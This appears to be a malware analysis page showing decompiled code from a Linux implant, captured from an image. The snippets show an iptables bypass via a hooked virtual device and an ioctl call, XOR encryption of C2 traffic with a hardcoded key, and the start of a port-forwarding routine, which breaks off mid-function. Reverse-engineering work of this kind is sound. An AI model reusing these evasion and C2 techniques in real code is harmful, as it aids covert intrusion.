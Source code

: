 <h4>This bypasses the iptables restrictions in using a hook in using a virtual device and iocti syscall for pushing the data to send.</h4>

```cpp
undefined4 bypass_iptables(int64_t arg1, int64_t arg2)
{
 int64_t var_34h;
 int64_t var_20h;
 int64_t var_18h;
 uint32_t fildes;
 int64_t var_4h;
 
 var_34h._0_4_ = (undefined4)arg1;
 var_34h._4_4_ = (undefined4)arg2;
 var_4h._0_4_ = 0xffffffff;
 fildes = 0xffffffff;
 fildes = open64("/proc/rs_dev", 0x800); // Pass a virtual device by hook syscall
 if (fildes != 0xffffffff) {
  var_20h._0_2_ = (undefined2)(undefined4)var_34h;
  var_18h = (int64_t)&var_34h + 4;
  var_4h._0_4_ = ioctl(fildes, 0x46375829, &var_20h); // use system call ioctl for push the data
  close(fildes);
 }
 return (undefined4)var_4h;
}

```

<h4>This encrypts and decrypts the data received or send to the C2 in using a string and the number of the increments pushed in argument of the function (fixed by exchange between implant and C2).</h4>

```cpp
void * encrypt_code(void *arg1, undefined8 arg2, undefined8 arg3)
{
 void *var_18h;
 int64_t var_10h;
 int64_t var_8h;
 
 var_10h._4_4_ = 0;
 var_8h = (int64_t)arg1;
 while (var_10h._4_4_ < (int32_t)arg2) {
  *(uint8_t *)var_8h = *(uint8_t *)var_8h ^ "CB2FA36AAA9541F0Unknown"[var_10h._4_4_ % 0x10];
  var_10h._4_4_ = var_10h._4_4_ + 1;
  var_8h = var_8h + 1;
 }
 return arg1;
}
```

<h4>This can initiate a port forwarding, in creating a new socket for initiating the endpoint instance between the two sockets and establish the port fordwarding.</h4>

```cpp

 pthread_self();
 pthread_detach();
 fildes._0_4_ = 0xffffffff;
 exceptfds = 0xffffffff;
 exceptfds = createsocket((uint64_t)(*(uint32_t *)((int64_t)arg1 + 0xc) & 0xffff));
 if (exceptfds == -1) {
 // WARNING: Load size is inaccurate
  if (0 < *arg1) {
   bzero(&s, 0x18);
   var_34h._0_4_ = 6;
   var_38h = *(undefined4 *)((int64_t)arg1 + 0x18);
   s._0_4_ = CalcHeaderCrc();
```